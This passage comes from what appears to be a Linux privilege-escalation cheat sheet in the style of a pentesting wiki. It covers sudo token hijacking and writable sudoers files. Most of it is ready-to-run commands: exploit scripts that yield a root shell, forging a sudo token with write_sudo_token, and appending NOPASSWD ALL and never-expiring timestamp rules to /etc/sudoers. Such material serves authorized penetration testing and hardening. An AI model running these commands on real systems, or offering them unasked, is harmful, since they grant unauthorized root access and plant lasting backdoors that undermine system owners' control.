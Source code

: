```bash
bash exploit_v2.sh
/tmp/sh -p
```

* The **third exploit** (`exploit_v3.sh`) will **create a sudoers file** that makes **sudo tokens eternal and allows all users to use sudo**

```bash
bash exploit_v3.sh
sudo su
```

### /var/run/sudo/ts/\<Username>

If you have **write permissions** in the folder or on any of the created files inside the folder you can use the binary [**write\_sudo\_token**](https://github.com/nongiach/sudo\_inject/tree/master/extra\_tools) to **create a sudo token for a user and PID**.\
For example if you can overwrite the file _/var/run/sudo/ts/sampleuser_ and you have a shell as that user with PID 1234, you can **obtain sudo privileges** without needing to know the password doing:

```bash
./write_sudo_token 1234 > /var/run/sudo/ts/sampleuser
```

### /etc/sudoers, /etc/sudoers.d

The file `/etc/sudoers` and the files inside `/etc/sudoers.d` configure who can use `sudo` and how. This files **by default can only be read by user root and group root**.\
**If** you can **read** this file you could be able to **obtain some interesting information**, and if you can **write** any file you will be able to **escalate privileges**.

```bash
ls -l /etc/sudoers /etc/sudoers.d/
ls -ld /etc/sudoers.d/
```

If you can write you can abuse this permissions

```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

Other way to abuse these permissions:

```bash
# makes it so every terminal can sudo  
echo "Defaults !tty_tickets" > /etc/sudoers.d/win
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /etc/sudoers.d/win
```

### DOAS

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

